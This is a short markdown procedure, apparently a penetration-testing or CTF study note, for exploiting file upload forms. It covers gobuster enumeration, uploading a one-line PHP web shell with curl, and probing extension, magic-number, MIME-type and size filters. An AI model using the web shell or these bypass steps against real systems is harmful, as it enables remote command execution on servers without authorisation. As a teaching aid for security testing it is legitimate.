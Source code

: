 # Upload Exploitation Procedure
Take the following steps to begin exploiting file uploads.

## 1. Scan the application
This can be done by creating valid user accounts or by using `gobuster`

- Framework / Platform
- Server (determines payload)
- 3rd party scripts / plugins
- Location of file upload form
- Client side scripts may hint towards backend filters

```sh
gobuster dir -u 10.10.10.10/content -w wordlist -x php,jpg
```

## 2. Upload a valid file
- Where can the uploaded image be accessed? 
```sh
curl -i -X POST -F "fieldname=@shell.php" 10.10.10.10
```

## 3. Attempt a malicious payload
A simple PHP payload saved as shell.php. This should not work at all, but worth a try.

```php
<?php
system($_GET['cmd']);
```

## 4. Invalid extensions
Try a completely invalid extension like `image.invalid`. 

| Upload Status | Extension Filter |
| ------------- | ------ |
| Success | Blacklist |
| Fail | Whitelist |

## 5. Magic numbers
Take the valid file and change the magic numbers to a file you would expect to be blocked. If the upload fails then you know they are filtering by magic numbers.

## 6. MIME Type
Take the valid file and change the MIME type to a file you would expect to be blocked. This can be done using burp suite or by sending the file directly to the endpoint.

```php
<?php
header('Content-Type: application/pdf');
```
## 7. File length
Upload progressively bigger files until you hit the filter. Craft a payload within those limits.

